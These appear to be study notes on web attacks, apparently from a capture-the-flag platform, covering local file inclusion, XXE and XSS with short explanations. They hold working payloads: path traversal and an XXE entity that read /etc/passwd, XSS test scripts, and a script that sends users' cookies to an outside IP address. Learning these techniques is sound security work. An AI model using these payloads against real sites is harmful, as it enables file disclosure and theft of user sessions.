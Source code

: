 ### LFI (local file inclusion)

If you see a parameter you can try LFI on it.
```
http://127.0.0.1/?file=page.php
```
We can not try view a file on the system.
```
http://127.0.0.1/?file=../../../../../../etc/passwd
```

### XXE (XML External Entity)

This abuses features of XML parser/Data.

Let's look at the structure.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE file SYSTEM "file.dtd">
<file>
    <to>moon</to>
    <from>cake</from>
    <heading>food</heading>
    <body>XXE attack</body>
</file> 
```
XML document starts with 
```
<?xml version="1.0" encoding="UTF-8"?> 
```
The next part is called the DTD (Document Type Definition)
This defines the elements and attributes.

- !DOCTYPE note -  Defines a root element of the document named note
- !ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
- !ELEMENT to - Defines the to element to be of type "#PCDATA"
- !ELEMENT from - Defines the from element to be of type "#PCDATA"
- !ELEMENT heading  - Defines the heading element to be of type "#PCDATA"
- !ELEMENT body - Defines the body element to be of type "#PCDATA"

We can abuse this to read a file on a system.
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```
or change something
```
<!DOCTYPE replace [<!ENTITY food "cake"> ]>
 <foodInfo>
  <firstName>moon</firstName>
  <lastName>&food;</lastName>
 </foodInfo>
 ```
 
 ### XSS (Cross-Site Scripting)
 
 Injection where an attacker can execute malicious scripts and execute on machine
 
 #### Stored-XSS
 
 See if we can add html tags
 
 <b>comment</b>
 
 See if we can get a popup
 ```
 <script>alert(XSS popup)</script>
 ```
 We can even get cookies or change element with javascript
 
 ```
 <script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
 <script>alert(document.cookie)</script>
 ```
 We can also steal cookies from other users.
 
 ```
 <script>window.location='http://192.168.1.10/?cookie='+document.cookie</script>
 ```
 
 ####  Reflected XSS
 ```
 <script>alert("hello")</script>
 <script>alert(window.location.hostname)</script>
 ```
 #### DOM-Based XSS
 ```
 test" onmouseover="alert('test')
 test" onmouseover="document.body.style.backgroundColor='red'
 ```
